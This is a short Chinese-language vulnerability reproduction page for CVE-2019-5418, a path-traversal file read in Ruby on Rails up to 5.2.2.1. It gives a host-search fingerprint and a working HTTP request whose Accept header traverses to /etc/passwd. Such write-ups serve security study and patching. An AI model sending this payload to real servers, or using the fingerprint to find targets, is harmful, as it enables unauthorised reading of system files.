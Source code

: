 # Rails Accept 任意文件读取漏洞 CVE-2019-5418

## 漏洞描述

Ruby on Rails是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。这个漏洞主要是由于Ruby on Rails使用了指定参数的render file来渲染应用之外的视图，我们可以通过修改访问某控制器的请求包，通过“…/…/…/…/”来达到路径穿越的目的，然后再通过“{{”来进行模板查询路径的闭合，使得所要访问的文件被当做外部模板来解析。

## 漏洞影响

<a-checkbox checked>Rail <= 5.2.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Ruby On Rails"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://cdn.nlark.com/yuque/0/2022/png/2117730/1656041292346-1069b91e-aa5e-4d53-821a-9150720e9b5e.png)

验证请求包

```php
GET /robots HTTP/1.1
Host: 127.0.0.1:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656045922866-e3e54d8e-a8a7-45e9-bdef-be60311151cb.png)